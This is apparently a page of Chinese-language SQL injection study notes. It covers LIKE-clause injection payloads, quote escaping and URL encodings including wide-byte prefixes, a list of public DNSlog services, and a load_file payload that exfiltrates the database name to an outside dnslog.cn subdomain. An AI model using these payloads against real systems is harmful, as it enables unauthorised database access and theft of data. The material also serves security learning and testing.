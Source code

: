 ### 搜索形注入

```
1. 搜索型
   上同 只是加入%‘ --+ 闭合’ “
   1%'1 and '%1%'' = '%1
   SQL查询语句：select * from users where name like '%tom%' 
   and '%1%' = '%1%
   '这里我们用 '% 来闭合 %' ，如果存在漏洞，返回正常信息。

2. 数字型

3. 字符型
```



```
转移函数作用：
单引号（'）= （\'）
双引号（"） = （\"）
反斜杠（\） = （\\）
URL编码
%27 单引号
%20 空格
%23 #号
%5c \反斜杠
%df
%cf
```

常见的第三方dnslog平台：

```
http: www.dnslog.cn/
http: ceye.io/
http: admin.dnslog.link
```

利用原理： DNS在解析的时候会留下日志，咱们就是读取多级域名的解析日 志，来获取信息。简单来说就是把信息放在域名中，传递到自己这 DNS服务上，然后读取日志，获取信息；

```
show variables like '%secure%; 查看load_file()可以读取的磁
盘。
当secure_file_priv为空，就可以读取磁盘的目录。
当secure_file_priv为G:\，就可以读取G盘的文件。
当secure_file_priv为null，load_file就不能加载文件。
phpstudy通过设置my.ini来配置。secure_file_priv=""就是可以
load_flie任意磁盘的文件。
mysql命令行执行：
?id=1' and (select load_file(concat('\\\\',(select 
hex(database())),'.98lic0.dnslog.cn\\abc'))) +
 PS:注入时需要注意，尽量使用hex() 函数编码一下，不然可能后无法请
求，获取数据后，最后将数据decode即可
```
